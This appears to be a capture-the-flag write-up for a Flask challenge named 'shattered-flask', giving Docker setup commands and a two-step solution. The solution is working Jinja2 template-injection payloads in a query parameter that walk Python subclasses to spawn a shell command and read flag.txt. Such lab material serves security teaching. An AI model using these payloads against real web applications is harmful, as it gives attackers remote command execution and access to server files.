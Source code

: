 ## Standalone setup
```
sudo docker build -t shattered-flask .
sudo docker run -p 5000:5000 shattered-flask
```
## Solution
Get os.popen index from subclasses
`GET /?name={{%27%27.__class__.__mro__[1].__subclasses__()}}`
`cat` the flag
`GET /?name={{%27%27.__class__.__mro__[1].__subclasses__()[213](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()[0].strip()}}`
